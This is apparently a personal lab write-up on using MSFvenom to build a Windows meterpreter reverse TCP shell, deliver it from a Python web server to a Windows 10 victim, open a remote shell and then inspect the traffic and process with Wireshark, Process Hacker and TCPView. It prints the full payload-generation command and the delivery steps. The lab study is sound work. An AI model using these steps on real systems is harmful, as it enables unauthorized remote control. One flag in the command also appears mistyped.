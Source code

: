 # MSFvenom

![Pasted image 20240502094200](https://github.com/lm3nitro/Projects/assets/55665256/92706414-50e2-4614-85b6-e2b7560e74d7)

MSFvenom is a versitile tool in the Metaspolit Framwork  used for generated varios types of payloads and shellcode. It allows penetration tested and security researcherd to create custom payloads for exploitation., bypassing defenses, and gaining remote access to target systems. 

Key Features:
+ Payload Generation
+ Payload Format
+ Customization

### Scope:
I will installing and configuring MSFveno to create a customer reverse TCP shell payload on the attacking host (Linux OS) that will then be downloaded and executed by the victim host (Windows 10 OS). I will then analyze the traffic using various tools to see how the connection looks like and the payload execution at the packet level. 

### Tools and Technology:
Linux OS, Win 10 OS, Wireshark, Process Hacker, TCPview and MSFvenom

## Getting started with MSFvenon

Once MSFvenon is installed and runnig, using the -h lists the available options

```
msfvenom -h
```

![Pasted image 20240501131915](https://github.com/lm3nitro/Projects/assets/55665256/ac798fe5-2b2b-445f-903c-54aeec52edc1)

Listing the -l will show available payloads:

```
msfvenom -l payloads
```

![Pasted image 20240501132226](https://github.com/lm3nitro/Projects/assets/55665256/15af3e0c-0708-439c-ac06-af170979d19c)

Here we can see the total amount of payloads available at the time of this writing: 1475

```
msfvenom -l payloads | wc -l
```

![Pasted image 20240501132317](https://github.com/lm3nitro/Projects/assets/55665256/dab59089-4138-4765-9085-f053d88371e8)

## Custom payload for Windows:

I will be creating a custom payload for my Windows 10 host for testing and analysis. I be using the 'meterpreter_reverse_tcp'. This is a reverse tcp shell. A reverse tcp shell is used to establish a network connection from a compromised target back to the attacker's machine, which in turn facilitates remote control and command execution over the network. 

```
msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=192.168.91.134 lport=4444 -4 exe -o lm3nitro_shell.exe
```

![Pasted image 20240501140620](https://github.com/lm3nitro/Projects/assets/55665256/061f31b8-12a7-4832-bfff-aaea596191b5)

Once that was complete, I can also verified my file information:

```
file lm3nitro_shell.exe
```

![Pasted image 20240501133716](https://github.com/lm3nitro/Projects/assets/55665256/94f63484-e1c7-4360-88af-2d58b2495fac)

I then used the exploit/multi/handler which provides a listening service to interact with the payload

![Pasted image 20240501133901](https://github.com/lm3nitro/Projects/assets/55665256/a912bfbf-372b-40c0-8dff-119db6fc56d5)

I configured the exploit/multi/handler to use with the custom payload. 

![Pasted image 20240501134438](https://github.com/lm3nitro/Projects/assets/55665256/ca2462d0-a320-4df5-8de3-ea1b3791b3a2)

I now needed a web server to serve the payload. As seen below, I chose it to be locally (192.168.91.134) on port 8000:

![Pasted image 20240501135301](https://github.com/lm3nitro/Projects/assets/55665256/171f630b-c618-447b-9d94-2096cee9be09)

## Downloading the payload:

Once everything was in place, I went to the Windows host, navigated to 192.168.91.134:8000 as specified above and downloaded lm3nitro_shell.exe I had previosuly created. 

![Pasted image 20240501135710](https://github.com/lm3nitro/Projects/assets/55665256/303251b2-3d73-4aff-823a-84f7bda6f9b9)

Using the following command on the attacking host I was able to see that the Windos host had indeed connected in real time:

```
python3 -m http.server
```

![Pasted image 20240501140151](https://github.com/lm3nitro/Projects/assets/55665256/60325139-29da-4ecd-935f-1b620351cd19)

I also ensured that I had Wireshark running and capturing the traffic on the network. Here we can see the traffic from the download:

![Pasted image 20240501135931](https://github.com/lm3nitro/Projects/assets/55665256/c444cd3f-6354-4126-9a99-857617248a4c)

After having downlaoded the executable, I then executed it:

![Pasted image 20240501140042](https://github.com/lm3nitro/Projects/assets/55665256/a6a5713d-2966-45d3-a7d6-d5a0bfdc43bb)

On the attacking host (msfvenom) I could see that it had been executed and details on the host regarding the user, OS version/build, etc. Also, using the shell command allowed me to successfully remotely connect to the target host over the network:

![Pasted image 20240501144904](https://github.com/lm3nitro/Projects/assets/55665256/afbfd0d0-7bef-4d2a-a5ce-62afd0217761)

## Traffic analysis of the payload:

Going back to Wireshark, I can see when the payload was executed. I was able to see the 200 ok when the target host navigated to the IP and port:

![Pasted image 20240501141911](https://github.com/lm3nitro/Projects/assets/55665256/810d5f2f-9b7f-4116-8d73-a41915740313)

I also used Process Hacker. Process Hacker is a free tool for Windows that helps manage and monitor what is happeneing. Windows by default comes with Task Manager, however, this is a more enhanced version of that. It provides more detailed information about running programs, CPU and memory. 

Taking a look at the lm3nitro_shell.exe that is running, I was also able to see the location, command line, time that it has running, and the Parent:

![Pasted image 20240501143036](https://github.com/lm3nitro/Projects/assets/55665256/c3d3bf25-9cf7-448d-8635-a7812a97ba06)

I also used TCPView (utility within Sysinternals) which lists all active network connections, showing the local and remote addresses, ports, protocols, and status. Here I could see that the connection was establish to the attacker IP on port 4444:

![Pasted image 20240501143308](https://github.com/lm3nitro/Projects/assets/55665256/af6dba33-5efe-45a4-9c29-af57d07e5f32)


### Summary:

I was able to install and configure MSFvenom and use it to create a rever tcp shell payload which was then downloaded by the victim (Windows 10 PC) to create a remote connection to it. While this was being downloaded and executed by the victim I had Wireshark running in the background to capture the traffic and have a look at how this malicious traffic looks at the packet level.  

Having done this allowed me to get a better understanding on attackers and a view into the malicious payloads that are readily available on tools such as MSFvenom. I was able to see how these payloads can be used to exploit vulnerable targets. I was able to further explore attack vectors and defense evasion techniques all in a safe a nd controlled enviornemnt. 

Overall, MSFvenom is a great tool becuase it really simplifies the creation of custom payloads for penetration testing and security assessments. I was ablen to generate malicious code tailored to my specific target. MSFvenom allows security professionals and ethical hackers to simulate real-world attacks and scenarions. One thing that I like is that it can be integrated with tools sucks as Metasploit to make it even more powerful. 


